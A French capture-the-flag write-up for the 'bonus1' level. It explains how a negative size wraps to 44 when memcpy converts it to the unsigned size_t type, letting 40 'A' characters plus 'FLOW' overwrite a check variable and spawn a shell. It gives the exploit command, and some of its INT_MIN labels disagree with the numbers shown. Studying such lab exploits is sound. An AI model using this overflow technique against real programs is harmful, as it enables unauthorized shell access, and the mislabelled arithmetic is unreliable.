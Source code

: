 ## Bonus1

Déroulement du programme :

* un buffer de 40 octets est déclaré (disons `buff`)
* un `atoi(argv[1])` est stocké dans un `int` (disons `size`)
* si la taille de `size` est en dessous de 10
    * on copie `argv[2]` dans `buff`
    * si `size` vaut `0x574f4c46`
        * on exécute un shell


### **Objectif :** ###

`size` étant placé juste après `buffer` dans la stack on va essayer de faire un **buffer overflow** sur `buff` pour pouvoir écraser la valeur de `size`.


### **Tests :** ###

9 est la plus grande valeur qu'on peut utiliser pour pouvoir copier `argv[2]` dans `dest`, ce ne sera pas suffisant pour notre dépassement.

En observant le prototype de `memcpy` on peut remarquer que le paramètre `n` est de type `size_t` (non signé) :

```
void *memcpy(void *dest, const void *src, size_t n);
```

Caster un nombre négatif en type non signé donne généralement un très grand nombre positif, on va donc être en mesure de copier plus de 40 caractères tout en respectant les contraintes pour passer la condition.

On va chercher à overflow de 44, pour ce faire utilisons un petit programme :

```c
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char **argv)
{
    int v;

    v = atoi(argv[1]);
    printf("%d %zu\n", v, v * 4);
    return (0);
}
```

En passant `INT_MIN` au programme :

```
➜  bonus1 git:(master) ✗ ./a.out -2147483648
-2147483648 0
```

En passant `INT_MIN + 1` au programme :
```
➜  bonus1 git:(master) ✗ ./a.out -2147483649
2147483649 4294967292
```

En passant `INT_MIN - 1` au programme :
```
➜  bonus1 git:(master) ✗ ./a.out -2147483647
2147483647 4
```

En passant `INT_MIN - 2` au programme :
```
➜  bonus1 git:(master) ✗ ./a.out -2147483646
2147483646 8
```

On peut en déduire qu'à chaque fois qu'on décrémente `INT_MIN` de 1 l'output augmente de 4.

On cherche à avoir une valeur de 44 pour `size` on fait donc `INT_MIN` - 11 :

```
➜  bonus1 git:(master) ✗ ./a.out -2147483637
-2147483637 44
```

Il ne reste plus qu'à mettre `0x574f4c46` (correspondant à **"WOLF"** en **ASCII** qu'on inversera vu qu'on est en little-endian) dans `argv[2]` et le tour est joué.


### **Solution :** ###

```
./bonus1 -2147483637 $(python -c 'print("A"*40 + "FLOW")')
```